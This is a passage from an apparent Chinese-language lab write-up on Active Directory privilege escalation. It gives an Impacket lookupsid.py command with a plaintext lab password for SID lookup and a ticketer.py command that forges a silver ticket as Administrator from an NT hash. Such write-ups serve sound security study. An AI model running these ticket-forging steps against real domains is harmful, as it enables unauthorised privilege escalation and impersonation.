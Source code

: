 获取 WIN10-CLIENT1 账户的 NTLM Hash后，再通过 lookupsid.py 查看域 SID，如下图所示。

```bash
python3 lookupsid.py pentest.com/Marcus:Marcus\@123@dc01.pentest.com
```

![](/assets/posts/2022-05-02-privilege-escalation-ntlmrelay2self-over-http-webdav/image-20220517084340037.png)


现在我们可以对 WIN10-CLIENT1 机器的 HOST 服务伪造白银票据，如下图所示。

```bash
proxychains4 python3 ticketer.py -domain-sid S-1-5-21-1536491439-3234161155-253608391 -domain pentest.com -spn host/win10-client1.pentest.com -nthash c4cc14098ac9587dea92f952457be6aa Administrator
```

![](/assets/posts/2022-05-02-privilege-escalation-ntlmrelay2self-over-http-webdav/image-20220515113708829.png)
